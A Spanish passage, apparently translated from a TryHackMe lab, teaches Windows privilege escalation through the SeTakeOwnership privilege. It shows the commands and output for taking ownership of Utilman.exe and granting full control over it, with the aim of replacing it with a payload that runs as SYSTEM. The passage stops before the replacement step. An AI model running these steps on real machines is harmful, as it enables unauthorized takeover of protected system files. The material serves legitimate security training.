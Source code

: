 ### Se Take Ownership

El privilegio SeTakeOwnership permite a un usuario tomar posesión de cualquier objeto en el sistema, incluidos archivos y claves de registro, lo que abre muchas posibilidades para que un atacante eleve los privilegios, como podríamos, por ejemplo, buscar un servicio que se ejecute como SISTEMA y tomar posesión. del ejecutable del servicio. Sin embargo, para esta tarea tomaremos un camino diferente.

Para obtener el privilegio SeTakeOwnership, debemos abrir un símbolo del sistema usando la opción "Abrir como administrador". Se nos pedirá que ingresemos nuestra contraseña para obtener una consola elevada:

<figure><img src="../../.gitbook/assets/20231009173643 (1).png" alt=""><figcaption></figcaption></figure>

Una vez en el símbolo del sistema, podemos verificar nuestros privilegios con el siguiente comando:

```shell-session
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

`utilman.exe`Esta vez abusaremos para escalar privilegios. Utilman es una aplicación integrada de Windows que se utiliza para brindar opciones de facilidad de acceso durante la pantalla de bloqueo:

![comportamiento normal utilman](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/a5437a609e41d982b320967667e9b97a.png)

Dado que Utilman se ejecuta con privilegios de SISTEMA, efectivamente obtendremos privilegios de SISTEMA si reemplazamos el binario original por cualquier carga útil que queramos. Como podemos tomar posesión de cualquier archivo, reemplazarlo es trivial.

Para reemplazar utilman, comenzaremos por tomar posesión de él con el siguiente comando:

```shell-session
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```

Tenga en cuenta que ser propietario de un archivo no significa necesariamente que tenga privilegios sobre él, pero al ser propietario puede asignarse los privilegios que necesite. Para otorgarle a su usuario permisos completos sobre utilman.exe, puede usar el siguiente comando:

```shell-session
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```
